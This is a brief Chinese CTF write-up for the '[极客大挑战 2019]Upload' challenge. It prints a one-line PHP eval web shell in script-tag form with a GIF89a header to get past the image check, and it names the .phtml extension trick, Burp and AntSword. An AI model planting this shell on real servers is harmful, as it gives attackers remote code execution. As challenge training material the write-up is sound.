



# [极客大挑战 2019]Upload

## Tag

文件上传

***

## Writeup

文件上传，会过滤 <?，检查图片，最大的问题在于过滤 <?，有一种语言叫 phtml，用 html 内嵌 php 代码：

```php+HTML
GIF89a //绕过PHP getimagesize的检查，这道题中有无皆可
<script language='php'>@eval($_POST[a]);</script>
```

Burp 修改文件格式：



上传成功：



蚁剑连接 `upload/one_word_1.phtml` 即可得到 flag：

